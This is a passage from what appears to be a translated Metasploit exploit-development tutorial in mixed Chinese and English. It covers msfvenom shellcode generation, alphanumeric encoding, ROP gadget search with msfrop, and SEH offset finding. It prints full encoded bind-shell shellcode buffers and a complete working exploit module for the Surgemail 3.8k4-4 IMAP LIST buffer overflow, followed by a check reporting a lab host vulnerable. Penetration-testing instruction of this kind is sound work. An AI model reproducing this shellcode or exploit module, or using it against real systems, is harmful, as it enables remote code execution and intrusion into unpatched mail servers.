- ‘StackAdjustment’ prefixes “sub esp” code
- ‘MinNops’, ‘MaxNops’, ‘DisableNops’
- ‘Prefix’ places data before the payload
- ‘PrefixEncoder’ places it before the stub
- These options can also go into the Targets block, allowing for different BadChars for targets and allows Targets to hit different OS architectures.

#### MSFVENOM

```msfvenom```是```msfpayload```和```msfencode```的一种结合型工具，它把两者的功能融合在一个框架中。```msfvenom``` 有很多功能选项：
```
root@kali:~# msfvenom -h
Error: MsfVenom - a Metasploit standalone payload generator.
Also a replacement for msfpayload and msfencode.
Usage: /usr/bin/msfvenom [options] 

Options:
    -p, --payload            Payload to use. Specify a '-' or stdin to use custom payloads
        --payload-options            List the payload's standard options
    -l, --list          [type]       List a module type. Options are: payloads, encoders, nops, all
    -n, --nopsled             Prepend a nopsled of [length] size on to the payload
    -f, --format              Output format (use --help-formats for a list)
        --help-formats               List available formats
    -e, --encoder            The encoder to use
    -a, --arch                  The architecture to use
        --platform          The platform of the payload
        --help-platforms             List available platforms
    -s, --space               The maximum size of the resulting payload
        --encoder-space       The maximum size of the encoded payload (defaults to the -s value)
    -b, --bad-chars             The list of characters to avoid example: '\x00\xff'
    -i, --iterations           The number of times to encode the payload
    -c, --add-code              Specify an additional win32 shellcode file to include
    -x, --template              Specify a custom executable file to use as a template
    -k, --keep                       Preserve the template behavior and inject the payload as a new thread
    -o, --out                   Save the payload
    -v, --var-name              Specify a custom variable name to use for certain output formats
        --smallest                   Generate the smallest possible payload
    -h, --help                       Show this message
```

一个示例：使用msfvenom 生成x86架构windows平台下，payload为windows/shell/bind_tcp 编码器为 x86/shikata_ga_nai 坏字符为NULL，编码轮数3轮，输出格式为python的shellcode。
```
root@kali:~# msfvenom -a x86 --platform Windows -p windows/shell/bind_tcp -e x86/shikata_ga_nai -b '\x00' -i 3 -f python
Found 1 compatible encoders
Attempting to encode payload with 3 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 326 (iteration=0)
x86/shikata_ga_nai succeeded with size 353 (iteration=1)
x86/shikata_ga_nai succeeded with size 380 (iteration=2)
x86/shikata_ga_nai chosen with final size 380
Payload size: 380 bytes
buf = ""
buf += "\xbb\x78\xd0\x11\xe9\xda\xd8\xd9\x74\x24\xf4\x58\x31"
buf += "\xc9\xb1\x59\x31\x58\x13\x83\xc0\x04\x03\x58\x77\x32"
buf += "\xe4\x53\x15\x11\xea\xff\xc0\x91\x2c\x8b\xd6\xe9\x94"
buf += "\x47\xdf\xa3\x79\x2b\x1c\xc7\x4c\x78\xb2\xcb\xfd\x6e"
buf += "\xc2\x9d\x53\x59\xa6\x37\xc3\x57\x11\xc8\x77\x77\x9e"
buf += "\x6d\xfc\x58\xba\x82\xf9\xc0\x9a\x35\x72\x7d\x01\x9b"
buf += "\xe7\x31\x16\x82\xf6\xe2\x89\x89\x75\x67\xf7\xaa\xae"
buf += "\x73\x88\x3f\xf5\x6d\x3d\x9e\xab\x06\xda\xff\x42\x7a"
buf += "\x63\x6b\x72\x59\xf6\x58\xa5\xfe\x3f\x0b\x41\xa0\xf2"
buf += "\xfe\x2d\xc9\x32\x3d\xd4\x51\xf7\xa7\x56\xf8\x69\x08"
buf += "\x4d\x27\x8a\x2e\x19\x99\x7c\xfc\x63\xfa\x5c\xd5\xa8"
buf += "\x1f\xa8\x9b\x88\xbb\xa5\x3c\x8f\x7f\x38\x45\xd1\x71"
buf += "\x34\x59\x84\xb0\x97\xa0\x99\xcc\xfe\x7f\x37\xe2\x28"
buf += "\xea\x57\x01\xcf\xf8\x1e\x1e\xd8\xd3\x05\x67\x73\xf9"
buf += "\x32\xbb\x76\x8c\x7c\x2f\xf6\x29\x0f\xa5\x36\x2e\x73"
buf += "\xde\x31\xc3\xfe\xae\x49\x64\xd2\x39\xf1\xf2\xc7\xa0"
buf += "\x06\xd3\xf6\x1a\xfe\x0a\xfe\x28\xbe\x1a\x42\x9c\xde"
buf += "\x01\x16\x27\xbd\x29\x1c\xf8\x7d\x47\x2c\x68\x06\x0e"
buf += "\x23\x31\xfe\x7d\x58\xe8\x7b\x76\x4b\xfe\xdb\x17\x51"
buf += "\xfa\xdf\xff\xa1\xbc\xc5\x66\x4b\xea\x23\x86\x47\xb4"
buf += "\xe7\xd5\x71\x77\x2e\x24\x4a\x3d\xb1\x6f\x12\xf2\xb2"
buf += "\xd0\x55\xc9\x23\x2e\xc2\xa5\x73\xb2\xc8\xb7\x7d\x6b"
buf += "\x55\x29\xbc\x26\xdd\xf6\xe3\xf6\x25\xc6\x5c\xad\x9c"
buf += "\x9d\x18\x08\x3b\xbf\xd2\xff\x92\x18\x5f\x48\x9b\xe0"
buf += "\x7b\x03\xa5\x32\x11\x27\x2b\x25\xcd\x44\xdb\xbd\xb9"
buf += "\xcd\x48\xda\x56\x4c\x56\xd5\x04\x87\x48\x3a\x6b\x9c"
buf += "\x2a\x15\x4d\xbc\x0b\x56\x06\xb5\xc9\x46\xd0\xfa\x68"
buf += "\xa6\x76\xe9\x52\x2c\x24\x62\x28\xe1\x1d\x87\xb0\x66"
buf += "\x93\x85\x8f\x87\x0f\xcf\x16\x29\x76\x03\x55\x0c\x0e"
buf += "\x3f\x17\xac"
```

#### 生成字符数字化(可读数字字母)的shellcode

有时，你可能需要生成可的字符数字化的shellcode，因为目标系统中存在着字符过滤。利用MSF msfvenom可以简单地生成字母数字化的shellcode。例如生成一个混合了字母数字大写和小写的编码shellcode，我们可以使用下列命令：

```
root@kali:~# msfvenom -a x86 --platform windows -p windows/shell/bind_tcp -e x86/alpha_mixed -f python
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/alpha_mixed
x86/alpha_mixed succeeded with size 660 (iteration=0)
x86/alpha_mixed chosen with final size 660
Payload size: 660 bytes
buf =  ""
buf += "\x89\xe2\xdb\xc3\xd9\x72\xf4\x5f\x57\x59\x49\x49\x49"
buf += "\x49\x49\x49\x49\x49\x49\x49\x43\x43\x43\x43\x43\x43"
buf += "\x37\x51\x5a\x6a\x41\x58\x50\x30\x41\x30\x41\x6b\x41"
buf += "\x41\x51\x32\x41\x42\x32\x42\x42\x30\x42\x42\x41\x42"
buf += "\x58\x50\x38\x41\x42\x75\x4a\x49\x79\x6c\x68\x68\x4f"
buf += "\x72\x67\x70\x45\x50\x65\x50\x73\x50\x4b\x39\x69\x75"
buf += "\x70\x31\x69\x50\x51\x74\x6e\x6b\x42\x70\x54\x70\x6c"
buf += "\x4b\x53\x62\x76\x6c\x4c\x4b\x33\x62\x75\x44\x4c\x4b"
buf += "\x43\x42\x47\x58\x54\x4f\x6c\x77\x42\x6a\x55\x76\x44"
buf += "\x71\x69\x6f\x6c\x6c\x57\x4c\x43\x51\x43\x4c\x77\x72"
buf += "\x34\x6c\x65\x70\x39\x51\x4a\x6f\x56\x6d\x66\x61\x6b"
buf += "\x77\x48\x62\x6b\x42\x62\x72\x50\x57\x4e\x6b\x72\x72"
buf += "\x54\x50\x4e\x6b\x62\x6a\x57\x4c\x4e\x6b\x62\x6c\x37"
buf += "\x61\x63\x48\x4d\x33\x42\x68\x33\x31\x38\x51\x42\x71"
buf += "\x6e\x6b\x56\x39\x47\x50\x47\x71\x6b\x63\x6c\x4b\x32"
buf += "\x69\x52\x38\x4b\x53\x35\x6a\x51\x59\x6c\x4b\x50\x34"
buf += "\x4c\x4b\x45\x51\x6b\x66\x35\x61\x49\x6f\x6c\x6c\x79"
buf += "\x51\x78\x4f\x46\x6d\x77\x71\x49\x57\x35\x68\x79\x70"
buf += "\x34\x35\x4c\x36\x57\x73\x73\x4d\x59\x68\x67\x4b\x73"
buf += "\x4d\x56\x44\x70\x75\x48\x64\x31\x48\x6e\x6b\x50\x58"
buf += "\x54\x64\x43\x31\x6b\x63\x35\x36\x6c\x4b\x76\x6c\x72"
buf += "\x6b\x4e\x6b\x70\x58\x35\x4c\x43\x31\x78\x53\x4e\x6b"
buf += "\x36\x64\x4c\x4b\x65\x51\x6a\x70\x4c\x49\x53\x74\x66"
buf += "\x44\x75\x74\x31\x4b\x71\x4b\x45\x31\x61\x49\x63\x6a"
buf += "\x30\x51\x49\x6f\x39\x70\x63\x6f\x63\x6f\x72\x7a\x6c"
buf += "\x4b\x55\x42\x68\x6b\x6e\x6d\x43\x6d\x55\x38\x37\x43"
buf += "\x76\x52\x43\x30\x57\x70\x63\x58\x52\x57\x63\x43\x74"
buf += "\x72\x63\x6f\x62\x74\x65\x38\x50\x4c\x44\x37\x77\x56"
buf += "\x54\x47\x39\x6f\x49\x45\x68\x38\x6a\x30\x73\x31\x35"
buf += "\x50\x67\x70\x75\x79\x68\x44\x70\x54\x52\x70\x72\x48"
buf += "\x74\x69\x4f\x70\x50\x6b\x63\x30\x39\x6f\x4e\x35\x71"
buf += "\x7a\x34\x4b\x70\x59\x56\x30\x68\x62\x59\x6d\x73\x5a"
buf += "\x65\x51\x72\x4a\x57\x72\x71\x78\x5a\x4a\x36\x6f\x59"
buf += "\x4f\x4b\x50\x79\x6f\x39\x45\x6f\x67\x50\x68\x77\x72"
buf += "\x37\x70\x57\x61\x73\x6c\x6d\x59\x4b\x56\x73\x5a\x34"
buf += "\x50\x52\x76\x33\x67\x30\x68\x49\x52\x49\x4b\x50\x37"
buf += "\x32\x47\x79\x6f\x68\x55\x6b\x35\x79\x50\x70\x75\x33"
buf += "\x68\x63\x67\x50\x68\x6d\x67\x78\x69\x45\x68\x79\x6f"
buf += "\x59\x6f\x39\x45\x33\x67\x65\x38\x62\x54\x58\x6c\x45"
buf += "\x6b\x39\x71\x6b\x4f\x69\x45\x66\x37\x6e\x77\x52\x48"
buf += "\x70\x75\x52\x4e\x52\x6d\x71\x71\x69\x6f\x58\x55\x62"
buf += "\x4a\x55\x50\x43\x5a\x73\x34\x70\x56\x70\x57\x31\x78"
buf += "\x33\x32\x4e\x39\x48\x48\x53\x6f\x79\x6f\x38\x55\x6d"
buf += "\x53\x7a\x58\x55\x50\x53\x4e\x46\x4d\x6e\x6b\x77\x46"
buf += "\x30\x6a\x33\x70\x33\x58\x43\x30\x46\x70\x55\x50\x77"
buf += "\x70\x51\x46\x53\x5a\x77\x70\x71\x78\x31\x48\x6f\x54"
buf += "\x51\x43\x59\x75\x4b\x4f\x59\x45\x6c\x53\x61\x43\x62"
buf += "\x4a\x65\x50\x31\x46\x36\x33\x61\x47\x30\x68\x77\x72"
buf += "\x79\x49\x49\x58\x31\x4f\x79\x6f\x6e\x35\x6e\x63\x38"
buf += "\x78\x55\x50\x61\x6e\x76\x67\x53\x31\x58\x43\x36\x49"
buf += "\x39\x56\x43\x45\x59\x79\x4f\x33\x41\x41"
```
仔细观察shellcode，可以发现其中包括不可读的字符数字：
```
>>> print buf
�����w�[SYIIIIIIIIIICCCCCC7QZjAXP0A0AkAAQ2AB2BB0BBABXP8ABuJI9lZHnbuPgpc0QpmYxe4qO0atLK2pFPNkpRFlLKv2gdn
kbRq8DOMgbjev4qKOLlGLCQ3LwrtlgPiQzotMs1O7irkBF2aGLK3bfpNk2j7LlKrlFq3HZCrhvan1SankbyupUQhSnkQYDXzCEjriNkttlKC
1kffQIonLiQZo4MeQIWvXyprUzVTCSMxxWK1mVDD5KT68LK68dd31kcE6LKVl2klKcheLuQN3Nkc4LK6ajpoyG4gTWTQK1K0a2yCj3aIoKP1
OqORzLKVrxkLMQM2H5c7B30wp2H47CC7BqO1Dqx0LPwuv6g9oxUoHz06a305P5yO4QDrpu8UyopRKwpKOxUBJdKaIv0zBKM1zWq0jdB1xKZf
oYOypyoKeMGPhDBC0gaCloyxfcZb0V6cgCX8B9K07E7IozunekpsE2xpWbHh78iehioyohUQGbHqdjLGKhaiokepWLW3XpubN0MpaiojucZg
prJ5TQF1GCXtByIZhQOkO9EosZX30Qn4mLK5fpjqPu8wp6p30uPBvpjC0SX3hMt3ciuYoiEOcQC0jc0Sf633gu8eR9IzhsoIoxUK38xEPand
GWq8CuyxFSE8iySAA
```

这时是因为操作码“\x89\xe2\xdb\xdb\xd9\x72”在payload的开始位置，需要找到payloads绝对位置，并获得一个位置独立的shellcode。一旦我们获得了地址之后，就把它推到对堆栈里，并存储在ECX寄存器中（用于计算偏移量）。然而，如果我们可以在运行代码前就预判或知道这个地址，那么我们就可以使用选项```BufferRegister=REG32```来对payload进行编码。

```
root@kali:~# msfvenom -a x86 --platform windows -p windows/shell/bind_tcp -e x86/alpha_mixed BufferRegister=ECX -f python
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/alpha_mixed
x86/alpha_mixed succeeded with size 651 (iteration=0)
x86/alpha_mixed chosen with final size 651
Payload size: 651 bytes
buf =  ""
buf += "\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49"
buf += "\x49\x49\x49\x49\x37\x51\x5a\x6a\x41\x58\x50\x30\x41"
buf += "\x30\x41\x6b\x41\x41\x51\x32\x41\x42\x32\x42\x42\x30"
buf += "\x42\x42\x41\x42\x58\x50\x38\x41\x42\x75\x4a\x49\x49"
buf += "\x6c\x49\x78\x4d\x52\x77\x70\x47\x70\x47\x70\x35\x30"
buf += "\x6e\x69\x49\x75\x44\x71\x79\x50\x42\x44\x6c\x4b\x72"
buf += "\x70\x74\x70\x6e\x6b\x50\x52\x34\x4c\x6c\x4b\x43\x62"
buf += "\x57\x64\x6c\x4b\x33\x42\x56\x48\x74\x4f\x6d\x67\x72"
buf += "\x6a\x45\x76\x46\x51\x79\x6f\x6c\x6c\x75\x6c\x71\x71"
buf += "\x63\x4c\x43\x32\x36\x4c\x75\x70\x79\x51\x7a\x6f\x36"
buf += "\x6d\x33\x31\x48\x47\x38\x62\x39\x62\x56\x32\x43\x67"
buf += "\x6c\x4b\x62\x72\x52\x30\x6c\x4b\x63\x7a\x57\x4c\x6c"
buf += "\x4b\x32\x6c\x54\x51\x63\x48\x4a\x43\x37\x38\x33\x31"
buf += "\x6e\x31\x42\x71\x4e\x6b\x62\x79\x55\x70\x37\x71\x7a"
buf += "\x73\x6e\x6b\x50\x49\x76\x78\x78\x63\x55\x6a\x47\x39"
buf += "\x6e\x6b\x45\x64\x6e\x6b\x55\x51\x4a\x76\x64\x71\x69"
buf += "\x6f\x4e\x4c\x7a\x61\x78\x4f\x54\x4d\x36\x61\x79\x57"
buf += "\x74\x78\x79\x70\x74\x35\x68\x76\x35\x53\x51\x6d\x38"
buf += "\x78\x75\x6b\x31\x6d\x56\x44\x31\x65\x59\x74\x56\x38"
buf += "\x4c\x4b\x33\x68\x55\x74\x75\x51\x4e\x33\x73\x56\x4c"
buf += "\x4b\x76\x6c\x52\x6b\x4c\x4b\x66\x38\x65\x4c\x63\x31"
buf += "\x4b\x63\x6e\x6b\x64\x44\x6e\x6b\x35\x51\x6e\x30\x4c"
buf += "\x49\x73\x74\x61\x34\x31\x34\x73\x6b\x73\x6b\x75\x31"
buf += "\x70\x59\x72\x7a\x36\x31\x4b\x4f\x79\x70\x53\x6f\x61"
buf += "\x4f\x63\x6a\x4e\x6b\x35\x42\x68\x6b\x4e\x6d\x61\x4d"
buf += "\x61\x78\x34\x73\x56\x52\x55\x50\x53\x30\x53\x58\x63"
buf += "\x47\x33\x43\x74\x72\x51\x4f\x66\x34\x75\x38\x50\x4c"
buf += "\x43\x47\x55\x76\x54\x47\x6b\x4f\x6e\x35\x4e\x58\x5a"
buf += "\x30\x53\x31\x43\x30\x75\x50\x36\x49\x38\x44\x42\x74"
buf += "\x52\x70\x73\x58\x35\x79\x6f\x70\x72\x4b\x45\x50\x69"
buf += "\x6f\x49\x45\x70\x6a\x74\x4b\x72\x79\x42\x70\x4b\x52"
buf += "\x79\x6d\x31\x7a\x65\x51\x73\x5a\x65\x52\x73\x58\x38"
buf += "\x6a\x64\x4f\x59\x4f\x59\x70\x79\x6f\x59\x45\x4a\x37"
buf += "\x50\x68\x46\x62\x67\x70\x67\x61\x61\x4c\x4f\x79\x6b"
buf += "\x56\x53\x5a\x74\x50\x71\x46\x43\x67\x63\x58\x7a\x62"
buf += "\x39\x4b\x70\x37\x53\x57\x69\x6f\x4a\x75\x4b\x35\x6b"
buf += "\x70\x54\x35\x72\x78\x46\x37\x52\x48\x6d\x67\x6a\x49"
buf += "\x54\x78\x69\x6f\x39\x6f\x5a\x75\x31\x47\x51\x78\x62"
buf += "\x54\x48\x6c\x75\x6b\x79\x71\x79\x6f\x4a\x75\x43\x67"
buf += "\x6a\x37\x43\x58\x42\x55\x72\x4e\x52\x6d\x31\x71\x6b"
buf += "\x4f\x4a\x75\x30\x6a\x75\x50\x71\x7a\x44\x44\x70\x56"
buf += "\x63\x67\x51\x78\x65\x52\x59\x49\x49\x58\x61\x4f\x79"
buf += "\x6f\x5a\x75\x4b\x33\x6c\x38\x45\x50\x43\x4e\x54\x6d"
buf += "\x4e\x6b\x46\x56\x52\x4a\x53\x70\x31\x78\x53\x30\x76"
buf += "\x70\x37\x70\x55\x50\x46\x36\x42\x4a\x65\x50\x52\x48"
buf += "\x51\x48\x6d\x74\x33\x63\x38\x65\x39\x6f\x6e\x35\x5a"
buf += "\x33\x52\x73\x63\x5a\x75\x50\x42\x76\x46\x33\x43\x67"
buf += "\x63\x58\x74\x42\x48\x59\x7a\x68\x73\x6f\x39\x6f\x78"
buf += "\x55\x4f\x73\x69\x68\x65\x50\x73\x4e\x64\x47\x45\x51"
buf += "\x6a\x63\x34\x69\x6a\x66\x72\x55\x4d\x39\x49\x53\x41"
buf += "\x41"
```
这时，我们得到了一个完全由可读字符和数字组成的shellcode:
```
>>> print buf
IIIIIIIIIIIIIIIII7QZjAXP0A0AkAAQ2AB2BB0BBABXP8ABuJIkLIxk2GpC0wpapk9IufQ9PpdLKF0dpLKSbvlNkQBB4LKcBq8dOlwrjUvV
QYoNLulU1SL32Tlq0zaXO4M6ahGKRIbCbrwNkf2vplK3zElNkrlR1D88cRhfaKaRqlKaIa05Q9Cnksy4XzCdzBiNk5dlKgqn6dqYoLl9QzoF
mgqyWgHIpPuzV4CsMjXwKQmUtt5M4BxNk1HUtEQzs56nkFl0KLKaHGlGqzslKwtlKGqJpK9PDTd7TCkckqq693jCaIom0sosobznkr2Xknma
MBHVSTrc0C0BHqgcCDr3oaDu8RlBW16c7KOXULxZ0S1C05PQ9jdqDrp3XEyOpBKgpyo9Eqz6kbyV08bIm2JfaqzTBU8zJ4OkoYpIohUz72HF
bePVqSlNi8fbJTPv6Rw0hJbKkVWRGioKeLEIP1ev81GRHMgM9vXkO9oHUqGBHadZL5k9qKO8UbwlWaxaerNrm0aIon51zwp1zfdaFV7u8eRJ
yxHaOkO8UNc8xS0SNTmLKFVazqPsX5PfpS0EPaFazUP2HbxOTbsIu9ozunsf3pj30Sf1CbwbH32HYhHQOKOjuos8xuPQnUWwq8Cti9V1eIyZ
cAA
```

这个参数的含义是我们已经将shellcode的绝对地址找到并放在ecx寄存器中。

#### 使用 MSFROP 查找代码漏洞

当你开发新版本Windows os的exploits时，你将发现它们默认有DEP功能。DEP阻止shellcode在堆栈中的执行，这就迫使 exploit开发者找到绕过这一限制的方式，也就有了所谓的 Return Orientation Programming（ROP）。

一个 ROP payload 可以使用预设的指令集来开发，例如 non-ASLR 的二进制使你的shellcode可执行。ROP链上的指令集都需要以RETN指令结束，以便与通常称为gadget的指令集一起执行ROP链。

MSF中的```msfrop```工具可以查找给定二进制文件并返回可用的gadgets。

```
root@kali:# msfrop -h

Options:
    -d, --depth [size]               Number of maximum bytes to backwards disassemble from return instructions
    -s, --search [regex]             Search for gadgets matching a regex, match intel syntax or raw bytes
    -n, --nocolor                    Disable color. Useful for piping to other tools like the less and more commands
    -x, --export [filename]          Export gadgets to CSV format
    -i, --import [filename]          Import gadgets from previous collections
    -v, --verbose                    Output very verbosely
    -h, --help                       Show this message
```

使用参数 -v，将返回所有找到的gadgets，直接输出到控制台。
```
root@kali:/tmp# msfrop -v metsrv.dll 
Collecting gadgets from metsrv.dll
Found 4829 gadgets

metsrv.dll gadget: 0x10001057
0x10001057:	leave
0x10001058:	ret

metsrv.dll gadget: 0x10001241
0x10001241:	leave
0x10001242:	ret

metsrv.dll gadget: 0x1000132e
0x1000132e:	leave
0x1000132f:	ret

metsrv.dll gadget: 0x1000138c
0x1000138c:	leave
0x1000138d:	ret
...snip...
```

当某个二进制文件中包含上千个gadgets时，msfrop的详细输出意义不大。可以使用参数 -x，它没有用会把找到的 gadgets 输出到一个CSV文件中。
```
root@kali:/tmp# msfrop -x metsrv_gadgets metsrv.dll 
Collecting gadgets from metsrv.dll
Found 4829 gadgets

Found 4829 gadgets total

Exporting 4829 gadgets to metsrv_gadgets
Success! gadgets exported to metsrv_gadgets
root@kali:/tmp# head -n 10 metsrv_gadgets 
Address,Raw,Disassembly
"0x10001098","5ec20c00","0x10001098: pop esi | 0x10001099: ret 0ch | "
"0x100010f7","5ec20800","0x100010f7: pop esi | 0x100010f8: ret 8 | "
"0x1000113d","5dc21800","0x1000113d: pop ebp | 0x1000113e: ret 18h | "
"0x1000117a","5dc21c00","0x1000117a: pop ebp | 0x1000117b: ret 1ch | "
"0x100011c3","5dc22800","0x100011c3: pop ebp | 0x100011c4: ret 28h | "
"0x100018b5","5dc20c00","0x100018b5: pop ebp | 0x100018b6: ret 0ch | "
"0x10002cb4","c00f9fc28d54","0x10002cb4: ror byte ptr [edi], 9fh | 0x10002cb7: ret 548dh | "
"0x10002df8","0483c20483","0x10002df8: add al, -7dh | 0x10002dfa: ret 8304h | "
"0x10002e6e","080bc20fb6","0x10002e6e: or [ebx], cl | 0x10002e70: ret 0b60fh | "
root@kali:/tmp#
```

### Exploit 开发升级

之前，我们学习过Fuzzing 一个IMAP服务器，其结果是我们发现可以重写EIP，在我们的控制下使ESP指向内存地址（在我们返回地址的后4字节）。我们可以重新构建自己的buffer（fuzzed = "A"*1004+"B"*4+"C"*4）来确定执行流是可以通过JMP ESP作为返回而重定向的。

```
msf auxiliary(fuzz_imap) > run

[*] Connecting to IMAP server 172.16.30.7:143...
[*] Connected to target IMAP server.
[*] Authenticating as test with password test...
[*] Generating fuzzed data...
[*] Sending fuzzed data, buffer length = 1012
[*] 0002 LIST () /"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]BBBBCCCC" "PWNED"
[*] Connecting to IMAP server 172.16.30.7:143...
[*] Connected to target IMAP server.
[*] Authenticating as test with password test...
[*] Authentication failed
[*] It seems that host is not responding anymore and this is G00D ;)
[*] Auxiliary module execution completed
msf auxiliary(fuzz_imap) >
```


#### 控制执行过程
要控制执行，我们需要确定正确的offset。幸运的是，Metasploit有两个有用的工具：```pattern_create.rb```和```pattern_offset.rb```。这两个脚本都在metasploit's tools目录里。运行```pattern_create.rb```将产生一个字符串，这个字符串由我们可用来替换序列A的唯一模式组成。

```
root@kali:~# /usr/share/metasploit-framework/tools/pattern_create.rb 11000
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A
c1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2
Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5...
```
在我们成功重写了EIP或SEH(或任何你想重写的寄存器)，我们必须注意寄存器里的值，并将这个值送给pattern_offset.rb，由它来确定哪个随机字符串中这个值会出现。

不调用命令行```pattern_create.rb```，我们使用```Rex::Text.pattern_create()```直接从我们的fuzzer中调用下面的API。如果我们查看源代码，我们可以看到这个函数如何被调用：

```
def self.pattern_create(length, sets = [ UpperAlpha, LowerAlpha, Numerals ])
        buf = ''
        idx = 0
        offsets = []
        sets.length.times { offsets >> 0 }
        until buf.length >= length
                begin
                        buf >> converge_sets(sets, 0, offsets, length)
                rescue RuntimeError
                        break
                end
        end
        # Maximum permutations reached, but we need more data
        if (buf.length > length)
                buf = buf * (length / buf.length.to_f).ceil
        end
        buf[0,length]
end
```

So we see that we call the pattern_create function which will take at most two parameters, the size of the buffer we are looking to create and an optional second parameter giving us some control of the contents of the buffer. So for our needs, we will call the function and replace our fuzzed variable with fuzzed = Rex::Text.pattern_create(11000).

This causes our SEH to be overwritten by 0x684E3368 and based on the value returned by pattern_offset.rb, we can determine that the bytes that overwrite our exception handler are the next four bytes 10361, 10362, 10363, 10364.

```root@kali:~# /usr/share/metasploit-framework/tools/pattern_create.rb 684E3368 11000 10360```


As it often happens in SEH overflow attacks, we now need to find a POP POP RET (other sequences are good as well as explained in “Defeating the Stack Based Buffer Overflow Prevention Mechanism of Microsoft Windows 2003 Server” Litchfield 2003) address in order to redirect the execution flow to our buffer. However, searching for a suitable return address in surgemail.exe, obviously leads us to the previously encountered problem, all the addresses have a null byte.


```
root@kali:~# msfpescan -p surgemail.exe

[surgemail.exe]
0x0042e947 pop esi; pop ebp; ret
0x0042f88b pop esi; pop ebp; ret
0x00458e68 pop esi; pop ebp; ret
0x00458edb pop esi; pop ebp; ret
0x00537506 pop esi; pop ebp; ret
0x005ec087 pop ebx; pop ebp; ret

0x00780b25 pop ebp; pop ebx; ret
0x00780c1e pop ebp; pop ebx; ret
0x00784fb8 pop ebx; pop ebp; ret
0x0078506e pop ebx; pop ebp; ret
0x00785105 pop ecx; pop ebx; ret
0x0078517e pop esi; pop ebx; ret
```

Fortunately this time we have a further attack approach to try in the form of a partial overwrite, overflowing SEH with only the 3 lowest significant bytes of the return address. The difference is that this time we can put our shellcode into the first part of the buffer following a schema like the following:

```| NOPSLED | SHELLCODE | NEARJMP | SHORTJMP | RET (3 Bytes) |```

POP POP RET will redirect us 4 bytes before RET where we will place a short JMP taking us 5 bytes back. We’ll then have a near back JMP that will take us in the middle of the NOPSLED.

This was not possible to do with a partial overwrite of EIP and ESP, as due to the stack arrangement ESP was four bytes after our RET. If we did a partial overwrite of EIP, ESP would then be in an uncontrollable area.

Next up, writing an exploit and getting a shell with what we’ve learned about our code improvements.

#### WRITING AN EXPLOIT MODULE

结合上面我们所学的，可以写出这个exploit并保存为```windows/imap/surgemail_list.rb```

```ruby
##
# This file is part of the Metasploit Framework and may be subject to
# redistribution and commercial restrictions. Please see the Metasploit
# Framework web site for more information on licensing and terms of use.
# http://metasploit.com/projects/Framework/
##


require 'msf/core'


class Metasploit3 > Msf::Exploit::Remote

    include Msf::Exploit::Remote::Imap

    def initialize(info = {})
        super(update_info(info,   
            'Name'           => 'Surgemail 3.8k4-4 IMAPD LIST Buffer Overflow',
            'Description'    => %q{
                This module exploits a stack overflow in the Surgemail IMAP Server
                version 3.8k4-4 by sending an overly long LIST command. Valid IMAP
                account credentials are required.
            },
            'Author'         => [ 'ryujin' ],
            'License'        => MSF_LICENSE,
            'Version'        => '$Revision: 1 $',
            'References'     =>
                [
                    [ 'BID', '28260' ],
                    [ 'CVE', '2008-1498' ],
                    [ 'URL', 'http://www.milw0rm.com/exploits/5259' ],
                ],
            'Privileged'     => false,
            'DefaultOptions' =>
                {
                    'EXITFUNC' => 'thread',
                },
            'Payload'        =>
                {
                    'Space'       => 10351,
                    'EncoderType' => Msf::Encoder::Type::AlphanumMixed,
                    'DisableNops' => true,
                    'BadChars'    => "\x00"
                },
            'Platform'       => 'win',
            'Targets'        =>
                [
                    [ 'Windows Universal', { 'Ret' => "\x7e\x51\x78" } ], # p/p/r 0x0078517e
                ],
            'DisclosureDate' => 'March 13 2008',
            'DefaultTarget' => 0))
    end

    def check
        connect
        disconnect
        if (banner and banner =~ /(Version 3.8k4-4)/)
            return Exploit::CheckCode::Vulnerable
        end
        return Exploit::CheckCode::Safe
    end

    def exploit
        connected = connect_login
        nopes = "\x90"*(payload_space-payload.encoded.length) # to be fixed with make_nops()
        sjump = "\xEB\xF9\x90\x90"     # Jmp Back
        njump = "\xE9\xDD\xD7\xFF\xFF" # And Back Again Baby  ;)         
        evil = nopes + payload.encoded + njump + sjump + [target.ret].pack("A3")
        print_status("Sending payload")
        sploit = '0002 LIST () "/' + evil + '" "PWNED"' + "\r\n"
        sock.put(sploit)
        handler
        disconnect
    end

end
```

最重要的方面是注意上面exploit代码的几个方面：
- 我们定义了这个shellcode的最大空间，并设置 DisableNops 特性来禁止自动的shellcode填充，我们将自己填充这个payload。
- 我们设置了默认的编码器来进行可读字符最大化编码，因为这是IMAP协议的特性。
- 我们定义了自己的3字节POP POP RET返回地址，后续将通过 target.ret 变量引用。
- 我们定义了一个 check 函数，可以检查 IMAP 服务器 banner，以识别有漏洞的服务器，以及exploit函数。

让我们看一下他是否可行：
```
 msf > search surgemail
 [*] Searching loaded modules for pattern 'surgemail'...
 
 Exploits
 ========
 
 Name                         Description                                  
 ----                         -----------                                  
 windows/imap/surgemail_list  Surgemail 3.8k4-4 IMAPD LIST Buffer Overflow 
 
 
 msf > use windows/imap/surgemail_list
 msf exploit(surgemail_list) > show options
 
 Module options:
 
 Name      Current Setting  Required  Description                             
 ----      ---------------  --------  -----------                             
 IMAPPASS  test             no        The password for the specified username 
 IMAPUSER  test             no        The username to authenticate as         
 RHOST     172.16.30.7      yes       The target address                      
 RPORT     143              yes       The target port                         
 
 Payload options (windows/shell/bind_tcp):
 
 Name      Current Setting  Required  Description                          
 ----      ---------------  --------  -----------                          
 EXITFUNC  thread           yes       Exit technique: seh, thread, process 
 LPORT     4444             yes       The local port                       
 RHOST     172.16.30.7      no        The target address                   
 
 Exploit target:
 
 Id  Name               
 --  ----               
 0   Windows Universal
```

#### 测试我们的exploit module
Some of the options are already configured from our previous session (see IMAPPASS, IMAPUSER and RHOST for example). Now we check for the server version:

```
msf exploit(surgemail_list) > check

[*] Connecting to IMAP server 172.16.30.7:143...
[*] Connected to target IMAP server.
[+] The target is vulnerable.
```
